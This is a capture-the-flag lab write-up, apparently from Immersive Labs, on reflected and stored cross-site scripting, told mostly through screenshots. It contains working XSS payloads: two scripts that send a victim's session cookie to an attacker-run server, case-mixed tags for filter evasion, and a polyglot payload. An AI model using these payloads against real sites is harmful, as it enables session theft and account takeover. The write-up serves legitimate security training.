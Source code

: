 ```yaml
---
date: 2025-03-02
categories: [CTF, ImmersiveLabs]
title: "IML - Cross-Site Scripting: Ep.7 – Demonstrate your Skills"
tags: ['privilege escalation', 'python', 'rce', 'xss']

description: "Cross-Site Scripting Ep.7 – D - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Cross-Site Scripting: Ep.7 – Demonstrate your Skills

- Make two users and log in with one of them

![image1](../resources/bf1c9864ffd44a8482e91cf21757504c.png)


![image2](../resources/965da10ce3de4cb08206b180ac07e031.png)

```java
<script>window.alert(1)</script>
```

![image3](../resources/4e83f2c4d4784e6485d2cc9391d26bca.png)

- This is the Reflected XSS

- For the Stored XSS:

![image4](../resources/bbb7b944ad8343648fe5e7abf262471d.png)


![image5](../resources/3320108f120c44b286a3b8a793ee200d.png)

```java
<script>window.alert("hey")</script>
```

- The same command gets used but this time it gets sent and stored until the victim opens the message


![image6](../resources/10122d593bc440adb0592363c324166a.png)


![image7](../resources/eafa9fbb6ac34a338fcb678e5e7a6301.png)


![image8](../resources/b935bcef4e1e4e18a4f21c515ad16ef5.png)

- This one we need to steal a users token, that we don’t have access to

- Set up Python server

- And send the following to jerry as a message:

```java
<script>document.location="http://10.102.164.154:8080/?cookie="+document.cookie;</script>
```
- Or try:

```java
<script>fetch("http://10.8.31.73:8000/"+document.cookie)</script>
```

![image9](../resources/2d4279c0527943b193730f39899d949e.png)


![image10](../resources/8a22e3c7091943fdb147e6757513045a.png)


![image11](../resources/c4405880582946958c94541bcb8fe1a5.png)
- Some filter evasion is being used


![image12](../resources/86b5fe4da4ec44c4b9879a4d0384c9dd.png)

- Login with the user:

```js
<Script>alert(1)</Script>
```


![image13](../resources/4d80f80af9204e8da3cda0a19d65abf7.png)


![image14](../resources/b35a0140fd544660a5bfb989deaea27e.png)

- Filter evasion


![image15](../resources/def49cd6745b4d1f99189caa12b84c67.png)

- Using a polyglot to get past the filter (bit of a cheating way, instead of using trial and error)

```javascript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert("XSS") )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

![image16](../resources/c0d527b467d54c29862de012ea1c9a3c.png)


![image17](../resources/22996ece1dc74f9da2b1990175591910.png)![image18](../resources/f2c61726ff2940df8e9f18266e77ac00.png)![image19](../resources/8ad3d31a6112462fb0c5f0c1a03f0b83.png)


![image20](../resources/3643c3c909b34b3486b3aecdb4e83c73.png)![image21](../resources/849cbf03293c42f289ae7c8b15c4b94d.png)


